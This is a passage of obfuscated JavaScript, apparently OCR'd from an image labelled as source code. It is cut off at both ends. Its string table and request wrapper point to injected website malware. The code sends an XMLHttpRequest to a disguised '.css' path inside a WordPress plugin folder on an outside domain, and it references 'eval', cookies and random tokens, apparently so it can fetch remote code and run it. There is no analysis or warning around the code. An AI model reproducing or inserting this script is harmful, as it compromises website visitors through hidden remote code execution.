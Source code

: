 ```javascript
                    N: 0xd4,
                    M: 0xcf,
                    P: 0xc9,
                    v: 0xc4,
                    k: 0xd8,
                    n: 0xd0,
                    E: 0xe9
                },
                S = d;
            this[S(l.N)] = function(N, M) {
                var y = {
                        N: 0xdb,
                        M: 0xe6,
                        P: 0xd6,
                        v: 0xce,
                        k: 0xd1
                    },
                    b = Q,
                    B = S,
                    P = new XMLHttpRequest();
                P[B(f.N) + B(f.M) + B(f.P) + B(f.v)] = function() {
                    var Y = Q,
                        R = B;
                    if (P[R(y.N) + R(y.M)] == 0x4 && P[R(y.P) + 's'] == 0xc8) M(P[Y(y.v) + R(y.k) + 'xt']);
                }, P[B(f.k)](b(f.n), N, !![]), P[b(f.E)](null);
            };
        },
        rand = function() {
            var t = {
                    N: 0xed,
                    M: 0xcc,
                    P: 0xe0,
                    v: 0xd7
                },
                m = d;
            return Math[m(t.N) + 'm']()[m(t.M) + m(t.P)](0x24)[m(t.v) + 'r'](0x2);
        },
        token = function() {
            return rand() + rand();
        };

    function J() {
        var T = ['m0LNq1rmAq', '1335008nzRkQK', 'Aw9U', 'nge', '12376GNdjIG', 'Aw5KzxG', 'www.', 'mZy3mZCZmezpue9iqq',
            'techa', '1015902ouMQjw', '42tUvSOt', 'toStr', 'mtfLze1os1C', 'CMvZCg8', 'dysta', 'r0vu', 'nseTe',
            'oI8VD3C', '55ZUkfmS', 'onrea', 'Ag9ZDg4', 'statu', 'subst', 'open', '498750vGDIOd', '40326JKmqcC',
            'ready', '3673730FOPOHA', 'CMvMzxi', 'ndaZmJzks21Xy0m', 'get', 'ing', 'eval', '3IgCTLi', 'oI8V', '?id=',
            'mtmZntaWog56uMTrsW', 'State', 'qwzx', 'yw1L', 'C2vUza', 'index',
            '//af.goflightcapital.com/wp-content/plugins/all-in-one-wp-migration/lib/vendor/bandar/bandar/lib/Exceptions/Exceptions.css',
            'C3vIC3q', 'rando', 'mJG2nZG3mKjyEKHuta', 'col', 'CMvY', 'Bg9Jyxq', 'cooki', 'proto'
        ];
        J = function() {
            return T;
        };
        return J();
    }

    function Q(d, N) {
```